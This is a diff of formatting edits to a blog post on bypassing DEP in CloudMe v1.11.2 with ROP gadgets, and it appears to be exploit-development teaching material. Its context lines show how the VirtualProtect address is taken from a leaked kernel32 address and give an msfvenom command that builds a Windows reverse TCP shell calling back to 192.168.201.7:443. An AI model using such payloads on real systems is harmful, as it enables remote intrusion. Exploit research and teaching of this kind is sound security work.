

Before and after one commit to xen0vas/xen0vas.github.io, a Jekyll site: the page built from _posts/2021-02-18-cloudme-v1-11-2-dep-bypass-using-rop-gadgets.md, in a window 1280 px wide and 900 px high, scrolled down 46698 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; cached includes are drawn as plain includes; some of the changed text lies outside the part shown.

Commit message:
CloudMe v1.11.2 DEP bypass using ROP gadgets

````diff
--- a/_posts/2021-02-18-cloudme-v1-11-2-dep-bypass-using-rop-gadgets.md
+++ b/_posts/2021-02-18-cloudme-v1-11-2-dep-bypass-using-rop-gadgets.md
@@ -1373,7 +1373,7 @@
 
 
 <p align="justify">
-At this point we can calculate the <b>VirtualProtect</b> address using the leaked **kernel32** address from the stack.
+At this point we can calculate the <b>VirtualProtect</b> address using the leaked <b>kernel32</b> address from the stack.
 </p>
 
 * * *
@@ -1614,7 +1614,9 @@
 
 ### 7. Bypassing DEP
 
-This section shows how to bypass DEP by using **VirtualProtect** in order to set the access protection to **PAGE\_EXECUTE\_READWRITE** on the memory region containing the shellcode. The following parameters must be specified in order to successfully execute **VirtualProtect** :
+<p align="justify">
+This section shows how to bypass DEP by using <b>VirtualProtect</b> in order to set the access protection to <b>PAGE_EXECUTE_READWRITE</b> on the memory region containing the shellcode. The following parameters must be specified in order to successfully execute <b>VirtualProtect</b> :
+</p>
 
 ```
 BOOL WINAPI VirtualProtect(
@@ -1737,7 +1739,7 @@
 The following reverse TCP shellcode will be used in order to exploit the buffer overflow vulnerability.&nbsp;
 </p>
 
-From msfvenom we generate the reverse TCP shellcode :
+From **msfvenom** we generate the reverse TCP shellcode :
 
 ```
 root@kali:~# msfvenom -p windows/shell_reverse_tcp LHOST=192.168.201.7 LPORT=443 EXITFUNC=thread  -b "\x00" -f  python
````
